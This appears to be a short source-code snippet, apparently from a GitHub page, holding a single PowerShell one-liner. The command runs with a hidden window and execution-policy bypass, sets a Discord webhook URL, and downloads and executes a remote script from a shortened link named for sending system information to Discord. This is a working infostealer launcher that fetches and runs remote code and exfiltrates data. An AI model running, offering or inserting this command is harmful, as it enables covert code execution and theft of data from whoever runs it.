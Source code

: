 powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1217926553502220349/as9odv8QBqZhltK0mw1Mab0036hud5L0MbUugypXDFgE-iNL82CX5iiHILlGSSXYtFZO'; irm https://is.gd/bw_info_to_dc | iex
